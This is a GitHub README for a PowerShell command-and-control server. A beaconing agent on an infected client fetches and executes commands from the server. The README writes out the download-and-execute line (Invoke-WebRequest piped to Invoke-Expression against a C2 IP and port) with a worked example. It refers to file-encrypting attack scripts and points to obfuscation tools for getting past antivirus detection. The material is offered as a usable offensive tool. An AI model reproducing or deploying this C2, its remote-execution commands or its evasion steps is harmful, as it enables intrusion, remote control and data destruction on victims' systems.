 [![Obfuscate PowerShell Files](https://github.com/AndreiVladescu/Powershell-C2/actions/workflows/obfuscation_job.yml/badge.svg?event=push)](https://github.com/AndreiVladescu/Powershell-C2/actions/workflows/obfuscation_job.yml)
# Powershell-C2 Server

This is a primitive c2 server through an HTTP server. After the client has been infected with the  beaconing agent, it waits for a random time before requesting data from the C2. The beacon agent will execute the command sent.

### Script structure
Some of powershell scripts that are included must be modified before-hand, with correct URLs or IPs. Be sure to read them and understand them before running, and be especially aware of the encrypting stuff. Know your keys, so that if in case you encrypt by mistake some files, you can recover them after.

Scripts are split into multiple folders with the type of attack  it encompasses.

### Script calling
To execute a script, use the following command in the field of `response_content`:
`Invoke-WebRequest -Uri "http://<c2_ip>:<c2_port>/<resource_name>"  | Invoke-Expression`

One example would be:
`Invoke-WebRequest -Uri "http://10.0.2.2:8080/shrek_wallpaper"  | Invoke-Expression`, which calls resource `shrek_wallpaper` from the C2, that's available at `10.0.2.2`, on port `8080`. 

This command is inserted in the line of response_content of the C2 python file:
`response_content = r'''Invoke-WebRequest -Uri "http://10.0.2.2:8080/shrek_wallpaper"  | Invoke-Expression'''`

### Obfuscating the scripts

The payloads will need some obfuscation, as antivirius solutions will definitely pick up the signatures of base64 encoding or other things. Some links which I used to obfuscate are:

 - [PowerShell-Obfuscation-Bible](https://github.com/t3l3machus/PowerShell-Obfuscation-Bible)
 - [AMSITrigger](https://github.com/RythmStick/AMSITrigger)
 - [Chameleon](https://github.com/klezVirus/chameleon)
 
 Things you need to do are described in Powershell Obfuscation Bible.  I used Chameleon to make all the obfuscations easy.


